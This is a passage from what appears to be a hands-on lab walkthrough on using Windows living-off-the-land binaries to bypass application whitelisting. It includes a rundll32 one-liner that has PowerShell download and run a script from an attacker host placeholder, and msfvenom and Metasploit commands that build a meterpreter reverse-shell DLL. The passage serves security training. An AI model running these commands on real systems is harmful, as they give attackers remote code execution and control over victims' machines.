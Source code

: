 ```
Command Prompt

           
			
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");

	    
```

As a result of the previous execution, a copy of the script.ps1 downloaded into memory on the target machine.


Read the above and practice these tools on the attached machine!
*No answer needed*

### Application Whitelisting Bypasses 

Bypassing Application Whitelisting

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system. This task focuses on LOLBAS examples that are used to bypass the Windows application whitelisting.

Regsvr32

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs)  in the Windows Registry. The regsvr.exe binary is located at:

    C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
    C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

Besides its intended use, regsvr32.exe binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting. According to Red Canary reports, the regsvr32.exe binary is the third most popular ATT&CK technique. Adversaries leverage regsvr32.exe to execute native code or scripts locally or remotely. The technique used in the regsvr32.exe uses trusted Windows OS components and is executed in memory, which is one of the reasons why this technique is also used to bypass application whitelisting. 

Let's try to apply this technique in real life. First, we need to create a malicious DLL file using msvenom and set up our  Metasploit listener to receive a reverse shell. Note that we will be creating a malicious file that works for 32bit operating systems. We will be using the regsvr32.exe Application Whitelisting Bypass technique to run a command on a target system.

```
Terminal

           
			
user@machine$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload 
No encoder specified, outputting raw payload 
Payload size: 375 bytes 
Final size of dll file: 8704 bytes 

user@machine$ user@machine$ msfconsole -q 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST ATTACKBOX_IP
LHOST => ATTACKBOX_IP
msf6 exploit(multi/handler) > set LPORT 443 
```